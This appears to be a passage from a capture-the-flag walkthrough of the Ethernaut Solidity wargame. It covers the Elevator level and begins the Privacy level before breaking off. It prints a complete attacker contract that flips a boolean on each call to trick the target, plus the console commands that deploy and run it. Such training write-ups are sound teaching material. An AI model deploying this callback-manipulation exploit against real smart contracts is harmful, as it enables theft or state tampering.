 `goTo` uses the `Building` interface to interact with msg.sender. `if(! building.isLastFloor(_floor))` is a check that ensures `isLastFloor` returns `false`. But we need it to return true later on when we assign its return value to `top`. How do we get it to return different values for the same input?

The `building` interface only specifies that the given contract has a function called `isLastFloor` that takes a uint parameter and returns a boolean value. It does not specify what the inner workings of that function should be. So we can build a contract that does anything as long as it fits the interface's specification:

    // SPDX-License-Identifier: MIT

    pragma solidity ^0.8.0;

    interface Building {
      function isLastFloor(uint) external returns (bool);
    }

    interface IElevator {
        function goTo(uint _floor) external;
    }

    contract ElevatorAttacker is Building{
        
        bool public counter = true;

        function isLastFloor(uint) external returns (bool) {
                counter = !counter;
                return counter;
        }

        function kill(address _instance) external {
            IElevator(_instance).goTo(99); // the uint input here is irrelevant - can be anything
        }
    }

In this contract, `isLastFloor` is set up to return whichever boolean value it did not return last time it was called. 

We can call the Elevator contract's `goTo` function from this contract, and it will make its first call to our `isLastFloor` which sets `counter` to and returns `false` (the opposite of the initially set `true` value). Then the second call will return `true`, flipping `top` to `true` and completing our task for this level. 

In the brownie console:

    attacker = ElevatorAttacker.deploy({'from': player})
    attacker.kill(instance,{'from': player})

Submit the instance and go to the next level!

## 13. Privacy

This level is very similar to Vault in that we're accessing storage directly to get supposedly hidden information. This time we aren't looking for an item stored in the first slot, so we need to understand how solidity lays out storage slots.

Remember that (with some exceptions) storage variables are stored in sequential 32 byte slots indexed from 0. This contract's storage is laid out as such:
